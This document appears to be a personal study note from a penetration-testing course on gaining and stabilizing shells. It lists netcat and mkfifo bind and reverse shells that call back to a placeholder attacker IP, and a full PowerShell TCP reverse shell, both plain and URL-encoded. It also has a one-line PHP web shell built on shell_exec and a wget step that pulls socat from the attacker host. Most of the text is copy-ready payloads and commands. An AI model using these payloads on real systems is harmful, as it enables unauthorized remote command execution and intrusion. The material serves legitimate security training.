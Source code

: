 - Netcat
- socat
- msfvenom

- python shell stabilization (interactive shell) - makes it pretier but still lacking some fuctionality
  - python -c 'import pty;pty.spawn("/bin/bash")'
Adding the below will add access to the term 'clear'
  - export TERM=xterm
- then back ground the shell
  - ^Z
- turn off the host teminal echo and foreground the stabilized shell
  - stty raw -echo; fg

  

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Pentest Monkey [Reverse Sheel Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


### Netcat shell stabilization
- Technique 1: Python (Linux only)
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm -- this will give us access to commands such as clear
3. background the shell (ctrl + z)
  - stty raw -echo; fg

        - if the shell dies - no iput will be visible on your own, since echo is disabled - ***reset*** - and press enter

- Technique 2: rlwrap (not installed on kali by default)
1. sudo apt install rlwrap
  - rlwrap nc -lvnp <p>
  - stty raw -echo: fg

- Technique 3: Socat (linux targets only)
1. sudo python3 -m http.server 80
2. wget <local-ip>/socat -O /tmp/socat
3. Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

------
With any of the shell use the below to adjust the tty size

- stty - a
- stty rows <number>
- stty cols <number>

### Common Shell Payloads

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the **nc.exe** Windows version included with Kali at **/usr/share/windows-resources/binaries**, and the version used in Kali itself: **netcat-traditional**) there is a **-e** option which allows you to execute a process on connection. For example, as a listener:

- nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with **nc <LOCAL-IP> <PORT> -e /bin/bash** would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

- mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

A very similar command can be used to send a netcat reverse shell:

- mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

- powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

### webShells
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

- <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

This will take a GET parameter in the URL and execute it on the system with **shell_exec()**. Essentially, what this means is that any commands we enter in the URL after **?cmd=** will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.


Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the **ifconfig** command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. **whoami, hostname, arch**, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the **cmd** argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

